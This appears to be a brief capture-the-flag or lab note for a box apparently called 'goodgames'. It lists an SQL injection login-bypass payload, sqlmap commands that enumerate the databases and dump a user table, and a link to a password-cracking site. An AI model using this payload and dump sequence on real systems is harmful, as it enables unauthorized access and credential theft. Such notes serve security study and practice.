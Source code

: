 # SQL Injection

Payload

```sql
admin' or 1=1 -- -
```



Sqlmap saved request

```
sqlmap -r goodgames.req
sqlmap -r goodgames.req --dbs
sqlmap -r goodgames.req -D main --tables
sqlmap -r goodgames.req -D main -T user --dump

```



Password crack

{% embed url="https://crackstation.net" %}

